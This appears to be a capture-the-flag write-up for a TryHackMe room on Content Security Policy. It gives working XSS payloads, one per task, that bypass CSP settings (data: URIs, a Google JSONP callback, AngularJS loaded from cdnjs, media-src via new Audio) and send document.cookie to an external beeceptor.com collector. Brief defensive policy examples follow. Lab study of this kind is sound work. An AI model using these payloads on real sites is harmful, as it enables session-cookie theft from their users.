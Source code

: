 # [Content Security Policy writeup](https://tryhackme.com/room/csp)
### Tools
###### Blue Team
[Evaluator](https://csp-evaluator.withgoogle.com/)

[Hasher](https://report-uri.com/home/hash)

[Generator](https://report-uri.com/home/generate)

###### Red Team
[JSONP Bypass](https://github.com/A1vinSmith/JSONBee/blob/master/jsonp.txt)

[Exfiltrator](https://beeceptor.com/)

### Payload
```
fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)

eval(document.location='https://randomcsp.free.beeceptor.com/'.concat(document.cookie))
```

### Attack
###### task 1
```
<BODY ONLOAD=fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)>
```

###### task 2 (`script-src data:`)
```
<script src="data:application/javascript,fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)"></script>
```
The alternative way is using `data:;base64,iVBORw0KGgo...`

```
echo -n 'fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)' | base64

<script src="data:;base64,ZmV0Y2goYGh0dHBzOi8vcmFuZG9tY3NwLmZyZWUuYmVlY2VwdG9yLmNvbS8ke2RvY3VtZW50LmNvb2tpZX1gKQ=="></script>
```

###### task 3 (`img-src *; script-src 'unsafe-inline'`)
```
<IMG id="randomcspsmith" SRC="">
<script>document.getElementById('randomcspsmith').src="https://randomcsp.free.beeceptor.com/" + document.cookie;</script>
```

###### task 4 (`style-src * 'self'; script-src 'nonce-abcdef'`)
```
<link id="randomcspsmith" rel=stylesheet href="" /><script nonce="abcdef">document.getElementById('randomcspsmith').href="https://randomcsp.free.beeceptor.com/" + document.cookie;</script>
```

###### task 5 (JSONP endpoints, `script-src 'unsafe-eval' *.google.com`)
```
<script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='https://randomcsp.free.beeceptor.com/'.concat(document.cookie))"></script>
```

###### task 6 (Trust CDN? `script-src 'unsafe-eval' cdnjs.cloudflare.com`)
CDN is way too generous. They're not only providing dependence for your website also for the hackers. When setting up the script-src directive and its sources, you should pay special attention to what you're allowing to load. If you're loading a script from an external source such as a CDN, make sure you're specifying the full URL of the script or a nonce/SHA hash of it and not just the hostname where it's hosted at, unless you're 100% sure no scripts that could be used to bypass your policy are hosted there. For example, if you're including jQuery from cdnjs on your website, you should include the full URL of the script `script-src cdnjs.cloudflare.com/ajax/.../jquery.min.js` or the SHA256 hash in your policy. Most CDNs allow you to get the script hash somewhere on their site.

```
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.3/prototype.min.js" integrity="sha512-C4LuwXQtQOF1iTRy3zwClYLsLgFLlG8nCV5dCxDjPcWsyFelQXzi3efHRjptsOzbHwwnXC3ZU+sWUh1gmxaTBA==" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>

{{$on.curry.call().document.location='https://randomcsp.free.beeceptor.com/' + $on.curry.call().document.cookie}}

</div>
```
https://cdnjs.com/
https://blog.0daylabs.com/2016/09/09/bypassing-csp/

###### task 7
After checking [Evaluator](https://csp-evaluator.withgoogle.com/)
```
default-src 'none';
media-src *;
style-src 'self';
script-src 'self'
```

'self' can be problematic if you host JSONP, Angular or user uploaded files.

`media-src` specifies the URLs from which video, audio and text track resources can be loaded from.
Checking [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/media-src)

This one is the hardest and the best.
1. The 404 pages will show up whatever you put in. means this one match `can be problematic if you host JSONP, Angular or user uploaded files.`
2. Need to understand how `script-src 'self';` works. It means something like `ip:3008/defend-1.js` will be executed.
3. Then try to close the tag with `'`. `<script src="/'; alert(1); '"></script>` alert should just work.
4. What to do after fetch, window.open, document.location are blocked by CSP? The answer is `media-src` `new Audio`
5. Use relative path for the 404 page, also a browser won't block your input for `Phishing`
6. final answer is 
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----


```
<script src="/'; new Audio('https://randomname.free.beeceptor.com/' + document.cookie); '"></script>
```


### Defend
###### task 1
script-src 'self';

###### task 2
script-src 'nonce-ae3b00';

###### task 3 (Inline JS)
[Hasher](https://report-uri.com/home/hash) to generate the hash for that inline javascript.
script-src 'sha256-8gQ3l0jVGr5ZXaOeym+1jciekP8wsfNgpZImdHthDRo='


### Expand Knowledge
https://content-security-policy.com/#directive


Don't forget to give ⭐ on the github to motivate me to continue developing, cheers.
